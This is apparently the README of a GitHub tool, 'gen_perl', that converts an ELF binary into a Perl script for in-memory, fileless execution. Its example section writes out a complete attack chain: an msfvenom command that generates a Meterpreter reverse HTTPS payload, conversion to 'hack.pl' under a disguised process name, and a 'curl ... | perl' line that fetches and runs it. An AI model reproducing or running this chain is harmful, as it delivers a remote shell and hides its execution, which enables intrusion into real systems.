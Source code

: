# gen_perl

A script to generate perl script for execute ELF in memory.

## Usage
```
git clone https://github.com/purpleroc/gen_perl
cd gen_perl
chmod +x gen_perl.sh
./gen_perl.sh elf_file perl_script.pl process_name
```

## Example
```
# generate reverse_https elf
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=8443 -f elf -o reverse_https
# convert elf to hack.pl
./gen_perl.sh reverse_https hack.pl hello_hacker
# start http server
python -m SimpleHTTPServer 8080
# execute hack.pl
curl http://127.0.0.1:8080/hack.pl | perl
```

### meterpreter
![meterpreter](https://github.com/purpleroc/gen_perl/raw/master/pic/msf.png)

### server
#### process info
![process_info](https://github.com/purpleroc/gen_perl/raw/master/pic/ps.png)

#### file info
![file_info](https://github.com/purpleroc/gen_perl/raw/master/pic/file.png)

## Reference
[In-Memory-Only ELF Execution](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)
